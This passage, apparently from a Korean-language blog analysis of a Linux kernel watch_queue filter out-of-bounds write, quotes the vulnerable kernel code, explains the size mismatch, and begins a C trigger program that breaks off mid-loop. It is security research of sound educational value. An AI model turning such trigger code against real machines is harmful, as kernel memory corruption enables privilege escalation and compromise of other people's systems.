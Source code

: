 ```c
	 */
	ret = -ENOMEM;
	wfilter = kzalloc(struct_size(wfilter, filters, nr_filter), GFP_KERNEL);
	if (!wfilter)
		goto err_filter;
	wfilter->nr_filters = nr_filter;

	q = wfilter->filters;
	for (i = 0; i < filter.nr_filters; i++) {                             /*[1]: vuln: OOB point */
		if (tf[i].type >= sizeof(wfilter->type_filter) * BITS_PER_LONG)
			continue;

		q->type			= tf[i].type;
		q->info_filter		= tf[i].info_filter;
		q->info_mask		= tf[i].info_mask;
		q->subtype_filter[0]	= tf[i].subtype_filter[0];
		__set_bit(q->type, wfilter->type_filter);
		q++;
	}

	kfree(tf);
set:
	pipe_lock(pipe);
	wfilter = rcu_replace_pointer(wqueue->filter, wfilter,
				      lockdep_is_held(&pipe->mutex));
	pipe_unlock(pipe);
	if (wfilter)
		kfree_rcu(wfilter, rcu);
	return 0;

err_filter:
	kfree(tf);
	return ret;
}
```

저번에 기술한 대로 데이터를 할당 할 때와 데이터를 쓸 때의 사이즈가 맞지 않아서 OOB 가 [1] 에서 발생하는 것을 알 수 있다. 

그럼 우리는 어떻게 해당 취약점을 트리거 할까? 

그냥 0x80 보다 크고 0x400보다 작은 사이즈의 `type` 필드를 가진 filter 를 요청하면 된다. 

다음은 그러한 사이즈를 요청하는 코드이다. 

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <stdint.h>
#include <unistd.h>
#include <linux/watch_queue.h>

int trigger_vuln(void)
{
    int nfilters = 2;
    struct watch_notification_filter *filter = (struct watch_notification_filter*)malloc(sizeof(struct watch_notification_filter) + nfilters * sizeof(struct watch_notification_type_filter));
    int i;
    int fds[2];

    filter->nr_filters = nfilters;
    for (i = 0; i < (nfilters - 1); i++)
```